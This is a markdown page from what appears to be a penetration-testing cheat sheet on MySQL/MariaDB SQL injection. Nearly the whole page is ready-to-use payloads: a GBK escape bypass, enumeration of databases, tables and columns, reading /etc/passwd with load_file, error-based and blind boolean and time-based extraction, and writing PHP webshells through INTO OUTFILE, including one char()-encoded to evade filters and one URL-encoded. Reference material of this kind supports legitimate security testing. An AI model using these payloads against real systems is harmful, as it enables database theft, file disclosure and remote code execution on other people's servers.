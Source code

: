 ```yaml
---
title: MySQL/MariaDB Common
layout: default
parent: SQL Injection
has_children: false
nav_order: 1
---
```



For MySQL/MSSQL: `select @@version` can return the version, others will error

`%09` can be used in case space is filtered. Of course comments can also.

`\xBF'` or URL encoded `%bf%27` to create a single quote that won't be escaped properly. (only in GBK) Example: `admin%bf%27%20or%201=1%20--+`

`sleep(5)` will delay 5 seconds

check can how many columns: `order by x`, keep on increasing until error. last number will be number of columns

Concatenating (concatenate put 2 together, group concatenate put all the values in one column as one): `concat(name1,":",name2)` or `group_concat(column_name)`

To comment, use `xx-- `(got space in the end, important)

Show all <b>databases</b>: `select schema_name from information_schema.schemata;` OR `show databases;` show the database in the current one: `select database()`

Show the <b>table name</b> and which database it is from, for a database call xx: `select table_name, table_schema from information_schema.tables where table_schema='xx'`

Show the <b>column name</b> if table name is yy: `select column_name,table_schema from information_schema.columns where table_name='yy'`

Finally to retrieve the info use `select bb, cc from xx.yy`

See which user logged in: `select user()`

Check if got superuser privilege: `select super_priv from mysql.user where user="xx"`

Check privilege in detailed: `select grantee, privilege_type from information_schema.user_privileges`

Read file from OS: `select load_file("/etc/passwd")` (Can attempt to load the current php page to disclose sensitive info using default path like /var/www/html/xx.php) <b>USE DOUBLE SLASH FOR WINDOWS IF FAIL</b>

Check secure file privileges: `SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"` (Empty=can read/write everywhere. If got a folder name means only read/write from there. NULL=read/write nowhere)\
Alternative:\
`SELECT @@GLOBAL.secure_file_priv;`

Write file into OS (must have FILE privilege, secure_file_priv not enabled, and write access to the server): `select "xxx" into outfile "/var/html/www/test.php"` (c:/xampp/htdocs/ can try too) <b>USE DOUBLE SLASH FOR WINDOWS IF FAIL</b>

For example to write webshell(using 0 as parameter for RCE), can use `select "", "<?php system($_REQUEST[0]); ?>","" into outfile "/var/www/html/test.php"`

One example of full writing webshell to Windows (bypassing waf/encoding, using 0 as parameter for RCE): `UNION SELECT char(60,63,112,104,112,32,115,121,115,116,101,109,40,36,95,82,69,81,85,69,83,84,91,48,93,41,59,32,63,62) INTO OUTFILE "C:\\wamp\\www\\PHP\\shell1.php"`

Another webshell example tested on MariaDB using the encoded version: 
Text: `' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php' -- `
Encoded: `%27+UNION+SELECT+%28%22%3C%3Fphp+echo+passthru%28%24_GET%5B%27cmd%27%5D%29%3B%22%29+INTO+OUTFILE+%27C%3A%2Fxampp%2Fhtdocs%2Fcmd.php%27+--+`

<b>Error based</b> (show 32 characters only, and cannot use if the output is pure alphanumeric or starts with `/` `.` and `@`)\
`extractvalue('',concat('>',version()))`

<b>Blind boolean based:</b> First still try to establish the number of columns (order by x/union select null,null..). Once established, use the following (if eg previously is 3 columns) to get <b>database name</b>: `union select null,null,null where database() like '%';-- `, after that `union select null,null,null where database() like 'a%';-- `, and keep on until you get database name. To get <b>table name</b>, use `union select null,null,null from information_schema.tables where table_schema = 'dbname' and table_name like 'a%';-- `. Finally to get <b>column name</b>, use `union select null,null,null from information_schema.columns where table_schema='dbname' and table_name='tablename' and column_name like 'a%';-- `. To remove as there are multiple columns, use `union select null,null,null from information_schema.columns where table_schema='dbname' and table_name='tablename' and column_name like 'a%' and column_name!='notthis';-- `. <b>After getting all details</b>, use the following to extract the information `union select 1,2,3 from dbname.tablename where columnname like 'a%';-- `. Repeat for multiple column names.

<b>Blind time based:</b> Almost same as blind boolean. First establish number of columns while setting one of them to sleep(5), and keep on adding until you get a different response time which means that is the correct number of columns. Example: `union select sleep(5),null;-- `. After that just follow blind boolean based.